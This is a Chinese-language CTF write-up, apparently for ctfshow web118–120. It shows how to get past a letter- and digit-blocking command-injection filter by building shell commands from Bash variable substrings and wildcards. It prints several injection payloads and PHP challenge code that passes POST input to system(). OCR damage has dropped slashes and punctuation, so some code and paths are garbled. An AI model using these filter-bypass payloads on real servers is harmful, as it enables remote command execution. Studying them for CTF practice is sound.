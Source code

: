 但是字母被过滤了就很难受。

我们还有一种方法，取 linux 变量代表字符串的长度，就可以构成我们的变量了。

比如说echo ${#PATH}会得到 98 . 那么我们就可以使用env命令输出的变量中的环境变量选择一个合适的 取其长度 再结合$PATH构造我们字符 getshell .

比如说我们想构造ls

原本可以通过${PATH51}${PATH111}构造，但是过滤了数字。

但是还可以这样${PATH${#TERM}${#SHLVL}}${PATH${#LANG}${#SHLVL}}.

$RANDOM是Bash的内部函数(并不是常量), 这个函数将返回一个伪随机[1]整数, 范围在0 - 32767之间. 它不应该被用来产生密匙.

所以可以使用 ${#RANDOM} 表示 1 ， 2 ，3，4，5 有几率。

还可以：

${PATH~0}输出变量代表字符串的最后一位，但是我们的数字被过滤了，我们可以使用${PATH~A},应该是字符等于false等于 0 把，所以可以把最后一位给代表。

${PATH~A}${PATH${#TERM}${SHLVL~A}}代表nl.

如果想要读取文件的话可以使用 linux 通配符。



httpsblog.csdn.netwit_732articledetails106290562

payload

${PATH${#HOME}${#SHLVL}}${PATH${#RANDOM}${#SHLVL}}${PATH${#RANDOM}${#SHLVL}}.
​
#其他师傅
${PATH~A}${PATH${#TERM}${SHLVL~A}}.


web119~通配符构造 bincat
环境界面和上题一样，经测试在上题的基础上多过滤了PATH,那么这个系统变量肯定是不能用了。

cat 命令实质上是在bincat那么我们利用其它命令构造他，

题目wp应该是与题目环境即容器名称有关。

${PWD${#}${#SHLVL}}${PWD${#}${#SHLVL}}${HOME${#HOSTNAME}${#SHLVL}}.
这里$HOSTNAME就各机器都不同。

但是我自己构造的在题目机器上又执行不了。

${PWD${#}${#SHLVL}}${PWD${#}${#SHLVL}}${HOME${#RANDOM}${#SHLVL}}
​
${PWD${#}${#SHLVL}}${PWD${#}${#SHLVL}}${HOME${#HISTSIZE}${#SHLVL}}
​
旨在构造bincat利用通配符t.

web120~通配符构造 bincat
php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
$code=$_POST['code'];
if(!preg_match('x09x0a[a-z][0-9]PATHBASHHOME()[]+-!=^x26%'`,', $code)){    
if(strlen($code)65){
echo'div align=center'.'you are so long , I dont like '.'div';
}
else{
echo'div align=center'.system($code).'div';
}
}
else{
echo'div align=centerevil inputdiv';
}
}
​
